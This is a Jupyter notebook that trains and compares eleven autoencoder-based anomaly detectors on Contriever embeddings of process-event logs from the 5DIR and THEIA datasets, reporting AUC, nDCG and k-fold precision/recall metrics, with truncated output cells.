  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 768), Test: (2238, 768)
  ✓ Saved to: final_train_test_split_contriever\5dir\train\ProcessEvent.pkl and final_train_test_split_contriever\5dir\test\ProcessEvent.pkl

Processing: 5dir_ProcessExec_contriever.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. Train: (8854, 768), Test: (2223, 768)
  ✓ Saved to: final_train_test_split_contriever\5di

#### Training and saving `.pth` files

In [1]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for Contriever
BASE_DIR = "final_train_test_split_contriever"
RESULTS_FILE = "results_all_autoencoders_contriever.csv"
MODEL_SAVE_DIR = "saved_weights_contriever"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL] facebook/contriever uses 768 dimensions
INPUT_DIM = 768     

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9583 | nDCG: 0.3887 (DCG: 1.6536, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.9008 | nDCG: 0.3527 (DCG: 1.5007, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.969 | nDCG: 0.4229 (DCG: 1.7992, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.949 | nDCG: 0.3426 (DCG: 1.4575, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.8841 | nDCG: 0.3496 (DCG: 1.4874, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.9002 | nDCG: 0.3563 (DCG: 1.5159, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.918 | nDCG: 0.3579 (DCG: 1.5228, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.9566 | nDCG: 0.3897 (DCG: 1.6578, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9516 | nDCG: 0.3647 (DCG: 1.5515, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.9502 | nDCG: 0.3581 (DCG:

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll
  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.9992 | nDCG: 0.8855 (DCG: 18.5419, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.9288 | nDCG: 0.4071 (DCG: 8.5248, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.8249 | nDCG: 0.804 (DCG: 16.8339, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.9946 | nDCG: 0.6926 (DCG: 14.5021, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.9301 | nDCG: 0.4061 (DCG: 8.504, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.9255 | nDCG: 0.4048 (DCG: 8.4769, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.9982 | nDCG: 0.8631 (DCG: 18.0715, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.9301 | nDCG: 0.4063 (DCG: 8.5065, IDCG: 20.9387)
    -> Training LSTMAE... Done. AUC: 0.9973 | nDCG: 0.851 (DCG: 17.8186, IDCG: 20.9387)
    -> Training Robust... Done. AUC: 0.9988 | nDCG: 0.8963 (DCG: 18.7673, IDCG: 20

In [2]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
import gc
from torch.utils.data import DataLoader, TensorDataset
from sklearn.model_selection import KFold
from sklearn.metrics import (
    roc_auc_score, average_precision_score, precision_score, 
    recall_score, f1_score, accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
BASE_DIR = "final_train_test_split_contriever"
RESULTS_FILE = "results_kfold_all_metrics_contriever.csv"
MODEL_SAVE_DIR = "saved_weights_contriever_kfold"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
INPUT_DIM = 768     
N_SPLITS = 5        # 5-Fold Cross Validation

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  
SPARSE_REG = 1e-4   
BETA = 4.0          
CAE_LAMBDA = 1e-4   

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()} with {N_SPLITS}-Fold CV")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================
# (These remain exactly the same as your previous code)
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x): return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) 
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)

# ==========================================
# 3. SAFE ERROR CALCULATION HELPER
# ==========================================
# Memory-safe batch processing for evaluation to prevent OOM
def get_model_errors(model, data_array, model_name, center=None, batch_size=1024):
    model.eval()
    all_errors = []
    with torch.no_grad():
        for i in range(0, len(data_array), batch_size):
            batch_tensor = torch.FloatTensor(data_array[i:i+batch_size]).to(DEVICE)
            
            if model_name == 'Deep SVDD':
                z = model(batch_tensor)
                err = torch.sum((z - center) ** 2, dim=1)
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, _, _ = model(batch_tensor)
                err = torch.mean((batch_tensor - recon) ** 2, dim=1)
            elif model_name == 'GMVAE':
                recon, _, _, _ = model(batch_tensor)
                err = torch.mean((batch_tensor - recon) ** 2, dim=1)
            elif model_name == 'Robust':
                recon = model(batch_tensor)
                err = torch.mean(torch.abs(batch_tensor - recon), dim=1)
            else:
                recon = model(batch_tensor)
                err = torch.mean((batch_tensor - recon) ** 2, dim=1)
                
            all_errors.append(err.cpu().numpy())
            
    return np.concatenate(all_errors)

# ==========================================
# 4. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context, fold):
    
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS PER FOLD ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}_Fold{fold}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION & ALL METRICS ---
    # 1. Get raw reconstruction errors
    train_errors = get_model_errors(model, X_train, model_name, center if 'center' in locals() else None)
    test_errors = get_model_errors(model, X_test, model_name, center if 'center' in locals() else None)

    # 2. Threshold-Independent Metrics
    try:
        auc_roc = roc_auc_score(y_test, test_errors)
        pr_auc = average_precision_score(y_test, test_errors)
    except:
        auc_roc, pr_auc = 0.0, 0.0

    # 3. Threshold-Dependent Metrics (Set dynamic threshold at 99th percentile of normal training errors)
    threshold = np.percentile(train_errors, 99.0)
    y_pred = (test_errors > threshold).astype(int)

    precision = precision_score(y_test, y_pred, zero_division=0)
    recall = recall_score(y_test, y_pred, zero_division=0)
    f1 = f1_score(y_test, y_pred, zero_division=0)
    accuracy = accuracy_score(y_test, y_pred)

    # Cleanup GPU memory
    del model, optimizer, train_loader
    gc.collect()
    torch.cuda.empty_cache()

    return {
        "Fold": fold,
        "Model": model_name,
        "AUC-ROC": round(auc_roc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 5. EXECUTION WITH K-FOLD
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train_orig = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test_orig = pkg['X']
                    y_test_orig = np.array(pkg['y'])
                
                # Merge all normal data and extract anomaly data
                X_test_normal = X_test_orig[y_test_orig == 0]
                X_anomaly_all = X_test_orig[y_test_orig == 1]
                X_normal_all = np.vstack([X_train_orig, X_test_normal])
                
                print(f"  Total Normal Logs: {len(X_normal_all)} | Total Anomaly Logs: {len(X_anomaly_all)}")

                kf = KFold(n_splits=N_SPLITS, shuffle=True, random_state=42)
                
                for fold, (train_idx, test_idx) in enumerate(kf.split(X_normal_all), start=1):
                    print(f"\n  --- Fold {fold}/{N_SPLITS} ---")
                    
                    X_train_fold = X_normal_all[train_idx]
                    X_test_normal_fold = X_normal_all[test_idx]
                    
                    X_test_fold = np.vstack([X_test_normal_fold, X_anomaly_all])
                    y_test_fold = np.array([0] * len(X_test_normal_fold) + [1] * len(X_anomaly_all))
                    
                    for m_name in models_to_run:
                        print(f"    -> Training {m_name}...", end=" ")
                        res = train_model(m_name, X_train_fold, X_test_fold, y_test_fold, performer, context, fold)
                        
                        res['Performer'] = performer
                        res['Context'] = context
                        all_results.append(res)
                        print(f"Done. PR-AUC: {res['PR-AUC']} | F1: {res['F1-Score']}")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 6. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all the new metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'Fold', 'AUC-ROC', 'PR-AUC', 'Precision', 'Recall', 'F1-Score', 'Accuracy', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SAVED")
    print("="*60)
    print(f"Saved metrics to {RESULTS_FILE}")
else:
    print("No results to save.")

Running on Device: CUDA with 5-Fold CV
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Total Normal Logs: 11142 | Total Anomaly Logs: 9

  --- Fold 1/5 ---
    -> Training Baseline... Done. PR-AUC: 0.0921 | F1: 0.1951
    -> Training Sparse... Done. PR-AUC: 0.0427 | F1: 0.1111
    -> Training Deep SVDD... Done. PR-AUC: 0.109 | F1: 0.2105
    -> Training DAE... Done. PR-AUC: 0.0459 | F1: 0.0
    -> Training VAE... Done. PR-AUC: 0.0377 | F1: 0.1026
    -> Training Beta-VAE... Done. PR-AUC: 0.0427 | F1: 0.0889
    -> Training GMVAE... Done. PR-AUC: 0.0421 | F1: 0.1026
    -> Training Attention AE... Done. PR-AUC: 0.0706 | F1: 0.1429
    -> Training LSTMAE... Done. PR-AUC: 0.0562 | F1: 0.0513
    -> Training Robust... Done. PR-AUC: 0.0531 | F1: 0.0476
    -> Training Contractive... Done. PR-AUC: 0.0427 | F1: 0.1081

  --- Fold 2/5 ---
    -> Training Baseline... Done. PR-AUC: 0.0941 | F1: 0.1379
    -> Training Sparse... Done. PR-AUC: 0.0462 | 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
